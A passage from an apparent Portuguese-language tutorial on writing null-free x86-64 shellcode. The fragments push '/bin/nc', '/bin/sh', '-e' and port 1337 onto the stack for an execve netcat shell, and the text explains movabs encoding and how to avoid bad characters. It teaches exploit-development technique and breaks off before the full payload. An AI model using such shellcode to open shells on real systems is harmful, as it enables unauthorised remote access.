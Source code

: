 <p> Essas linhas acima é muito simples, zeramos o registrador que queremos usar, nesse caso o RDX, os Opcodes dessa linha fica mais ou menos assim 48 31 d2, depois movermos para o mesmo a string 636e2f6e69622fff que é bin/nc de hex para ascii. movamente, em seguida faço um rotate com a instrução shr nos 8 bytes significativos, A  shr instrução desloca todos os bits do operando destino para a direita um pouco mudando um zero no bit HO. os bits que deslizam fora da extremidade desaparecem (com exceção do último, que vai para o flag de carry). depois "salvamos nossa string no rsp".</p>
{% highlight asm %}
; missão 02
mov	rcx,0x68732f6e69622fff
shr	rcx,0x08
push 	rcx
mov	rcx,rsp
{% endhighlight %}
<p>O próximo passo também segue o mesmo principio do anterior, na primeira linha vai a string hs/nib/ ou bin/sh  a ideia de colocar um "fff", no final da string serve apenas para preencher assim evitando bytes nulos, "bad char", para entender melhor essa parte vamos dar uma olhada no dessasembler:</p>
{% highlight asm %}
// não faz parte do código
400095:	48 b9 ff 2f 62 69 6e 	movabs $0x68732f6e69622fff,%rcx
{% endhighlight %}
<p>Entendendo melhor o que compilador faz ele usa a instrução movabs para mover os dados. isso porque você precisa usar movabs para forçar a realocação de 64 bits. são chamados 'Immediates' Valores imediatos dentro instruções permanecem 32 bits e seu valor é o sinal estendido para 64 bits antes do cálculo. outro exemplo vamos ver agora: mov 0x89abcdef,% al, o que queremos é mover apenas o valor 89abcdef para parte baixa do registrador. mas olha só o que acontece com objdump a0 df ce ab 89 00 00 movabs 0x89abcdef,% al, esse valor é complementado, por isso precisamos colocar movl em 32 bits ou movq 64 bits. Na AT & T sintaxe do tamanho de operandos de memória é determinado a partir do último caractere da instrução mnemônica. Sufixos mnemônico b , c ,  l e q especificar byte (8 bits), word (16-bit), comprimento (32-bit) e palavra quádrupla referências de memória (64-bit).No código de 64 bits, movabs pode ser utilizado para codificar o mov instrução com o deslocamento de 64-bit ou operando imediato. por isso aparece os bad char.vamos continuar com nosso código:</p>

{% highlight asm %}
; missão 03
mov     rbx,0x652dffffffffffff ; nosso argumento -e
shr	rbx,0x30
push	 rbx
mov	rbx,rsp
; missão 04
mov	r10,0x37333331ffffffff ; nossa porta 1337
shr 	r10,0x20
push r10
mov	r10,rsp
{% endhighlight  %}

<p>Basicamente  passamos dois passos do nosso desafio , colocar o argumento -e e o numero da porta (1337)para função execve("/bin/nc",{"/bin/nc","1337","-e","/bin/sh"},NULL) , isso quer dize que precisamos apenas da string do IP que vai ser conectar, por meio do netcat, nesse caso não vamos mover a string "127.0.0.1". pois o zero da string vai chegar como bad char lembra ? isso mesmo não poderemos deixar bad char em nosso código precisamos deixar o código limpo, então lembre sempre que for possível usar funções em assembly faça  até para ficar mais dinâmico seu código, as funções é uma boa arma para evitar os bad char ou qualquer tipo de catacter que possa atrapalhar, certo que ela vai precisar mais de bytes, lógico, mas isso não é o problema pra isso existe a matemática :D vamos continuar com nosso código</p>

